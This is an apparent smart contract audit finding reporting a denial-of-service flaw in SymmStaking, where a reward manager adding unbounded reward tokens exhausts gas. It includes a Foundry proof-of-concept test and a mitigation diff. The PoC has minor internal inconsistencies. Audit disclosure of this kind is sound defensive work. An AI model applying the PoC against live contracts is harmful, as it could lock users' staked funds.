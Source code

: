 Big Licorice Camel

High

# Unbounded Reward Token Array Causes Permanent Denial of Service via Gas Limit Exhaustion

### Summary

**Description:** Unbounded loops over reward tokens in core functions [(`SymmStaking::_updateRewardsStates`)], [(`SymmStaking::_claimRewardsFor`)] will cause a complete denial-of-service (DoS) for all stakers as a compromised/malicious `SymmStaking::REWARD_MANAGER_ROLE` will add enough tokens to exceed Ethereum's block gas limit.

### Root Cause

In [`SymmStaking::_updateRewardsStates()` (L406-L424)](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L406-L424), the loop for (uint256 i = 0; i < length; ) iterates through all reward tokens unconditionally

In [`SymmStaking::configureRewardToken()` (L312-L335)](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L312-L335), there is no limit on rewardTokens.push(token)

### Internal Pre-conditions

`SymmStaking::REWARD_MANAGER_ROLE` needs to call `SymmStaking::configureRewardToken()` to add more than 500 tokens

`SymmStaking::rewardTokens.length` needs to grow beyond gas-safe thresholds (~20 tokens as per docs)

### External Pre-conditions

None required - Vulnerability is fully controlled by protocol roles



### Attack Path

`SymmStaking::REWARD_MANAGER_ROLE` intentionally or accidentally calls `SymmStaking::configureRewardToken()` 200+ times with new token addresses

Legitimate user attempts deposit()/withdraw()

Transaction runs out of gas at [`SymmStaking::_updateRewardsStates()` loop](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L406-L424)(uint256 i = 0; i < length; )

### Impact

All users cannot stake/withdraw/claim rewards (permanent DoS)

Protocol suffers total operational failure - locked funds until upgrade

Attacker cost: ~0.1 ETH (deploying 500+ ERC20 tokens)

### PoC

```solidity
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.18;

import {Test} from "forge-std/Test.sol";
import {StdCheats} from "forge-std/StdCheats.sol";
import {SymmStaking} from "../../src/SymmStaking.sol";
import { MockERC20 } from "../../src/MockERC20.sol";


contract SymmStakingTest is StdCheats, Test {
    SymmStaking symmStaking;
    MockERC20 stakingToken;
    address admin = address(0x123);

    function setUp() public {
        vm.startPrank(admin);

        symmStaking = new SymmStaking();
        stakingToken = new MockERC20();

                // Initialize staking contract
        symmStaking.initialize(admin, address(stakingToken));
        
        // Configure permissions
        symmStaking.grantRole(symmStaking.REWARD_MANAGER_ROLE(), admin);
        
        // Fund test account
        stakingToken.mint(admin, 1000e18);
        stakingToken.approve(address(symmStaking), type(uint256).max);
        
        vm.stopPrank();
    }

function testGasExhaustionAttack() public {
    vm.startPrank(admin);
    
    // 1. Add 500 reward tokens (increase from 200)
    uint256 tokenCount = 700;
    for(uint256 i=0; i<tokenCount; i++) {
        MockERC20 rewardToken = new MockERC20();
        rewardToken.mint(admin, 1e30);
        rewardToken.approve(address(symmStaking), type(uint256).max);
        
        symmStaking.configureRewardToken(address(rewardToken), true);
        
        address[] memory tokens = new address[](1);
        tokens[0] = address(rewardToken);
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 1e18;
        symmStaking.notifyRewardAmount(tokens, amounts);
    }

    // 2. Advance time by MORE THAN REWARD DURATION (1 week + 1 second)
    vm.warp(block.timestamp + 7 days + 1); // 🚨 Match DEFAULT_REWARDS_DURATION
    
    // 3. Attempt deposit with Ethereum's block gas limit (30M)
    uint256 gasBefore = gasleft();
    (bool success, ) = address(symmStaking).call{gas: 30_000_000}( // 🚨 Set explicit gas limit
        abi.encodeWithSelector(symmStaking.deposit.selector, 100e18, admin)
    );
    uint256 gasUsed = gasBefore - gasleft();
    
    // 4. Verify transaction reverted due to out-of-gas
    assertTrue(!success, "Transaction should revert due to gas exhaustion");
}

function testGasLimitViolation() public {
    vm.startPrank(admin);

    // 1. Add 15 reward tokens
    for(uint256 i=0; i<15; i++) {
        MockERC20 rewardToken = new MockERC20();
        rewardToken.mint(admin, 1e30);
        rewardToken.approve(address(symmStaking), type(uint256).max);
        
        symmStaking.configureRewardToken(address(rewardToken), true);
        
        address[] memory tokens = new address[](1);
        tokens[0] = address(rewardToken);
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 1e18;
        symmStaking.notifyRewardAmount(tokens, amounts);
    }

    // 2. Attempt deposit with realistic gas limit
    (bool success,) = address(symmStaking).call{gas: 30_000_000}( // Ethereum's ~30M block limit
        abi.encodeWithSelector(symmStaking.deposit.selector, 100e18, admin)
    );
    
    // 3. Verification
    assertFalse(success, "Transaction succeeded despite gas limit violation");
}
    }
```



### Mitigation

```diff
// Add to constants
+ uint256 public constant MAX_REWARD_TOKENS = 20;

// Modify configureRewardToken
function configureRewardToken(address token, bool status) external onlyRole(REWARD_MANAGER_ROLE) {
+   if (status && rewardTokens.length >= MAX_REWARD_TOKENS) {
+       revert ExceedsMaxRewardTokens(MAX_REWARD_TOKENS);
+   }
    
    // Existing logic
}
```

**Documentation Alignment**
While project docs state "reward tokens will not exceed 10-20", the code must technically enforce this. The mitigation brings code to spec.